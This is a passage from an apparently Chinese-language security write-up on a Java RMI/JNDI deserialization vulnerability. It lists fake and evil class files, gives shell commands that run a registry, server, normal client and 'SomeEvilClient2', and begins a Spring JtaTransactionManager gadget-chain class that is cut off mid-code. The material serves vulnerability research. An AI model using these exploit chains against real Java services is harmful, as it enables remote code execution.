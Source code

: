     |   SomeInterface2.class
    |   SomeNormalClient2.class
    |
    +---any
    |       Message2.class
    |
    \---other
            PublicKnown2.class (fake版)

在test1目录执行:

rmiregistry 1099

java \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeDynamicServer2 any

在test2目录执行:

java \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeNormalClient2 any "msg from client"

java \
-Djava.naming.factory.initial=com.sun.jndi.rmi.registry.RegistryContextFactory \
-Djava.naming.provider.url=rmi://192.168.65.23:1099 \
SomeEvilClient2 any "msg from client"

13) 关于AbstractPlatformTransactionManager的幺蛾子

Message、PublicKnown已将漏洞原理讲透了，Message2、PublicKnown2只是为了让演
示更贴近现实世界。很不幸，想演示如何在这个漏洞中使用JtaTransactionManager，
不能用Message2。与这个洞本身没啥关系，仅仅是JtaTransactionManager利用链不
适用于Message2，关于这点，吃亏之后通过调试才意识到的，后面会细说。新搞一批
演示代码。

13.1) Message3.java

```java
/*
 * javac -encoding GBK -g -cp "spring-tx-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar" any/Message3.java
 */
package any;

import org.springframework.transaction.support.*;
import org.springframework.transaction.TransactionDefinition;

/*
 * 在本次演示方案中，必须是public的，必须继承AbstractPlatformTransactionManager
 */
public class Message3 extends AbstractPlatformTransactionManager
{
    private static final long   serialVersionUID    = 0x5120131473637a00L;

    private String  msg;

    public Message3 ()
    {
    }

    public Message3 ( String msg )
    {
```